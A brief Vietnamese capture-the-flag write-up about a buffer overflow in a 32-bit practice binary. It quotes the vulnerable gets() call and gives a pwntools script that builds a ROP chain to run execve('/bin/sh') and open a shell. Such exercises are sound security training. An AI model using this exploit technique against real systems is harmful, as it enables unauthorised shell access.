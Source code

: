 # khai thác
ta thấy lỗi BOF ở đây
```c
  puts("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!");
  return gets(v1);
```

ta sẽ tìm offset và dùng ropgadget để thực thi execve("/bin/sh, 0, 0)
ta dùng ropgadget tìm các push_eax, pop_eax, pop_ecx, và thực thi int_80
```python
from pwn import *
context.binary = exe = ELF("./vuln", checksec=False)
r = process('./vuln')
input()
push_eax = 0x08070fed
pop_eax = 0x080b074a
pop_ecx = 0x08049e39
int_80 = 0x0804a3d2

payload = b'/bin/sh\x00'
payload = payload.ljust(28)
payload+= p32(push_eax)
payload+=flat(pop_eax, 0xb)
payload+=flat(pop_ecx, 0)
payload+=p32(int_80)
r.sendlineafter(b"grasshopper!\n", payload)

r.interactive()
```
bài này em coi wu kcsc =)))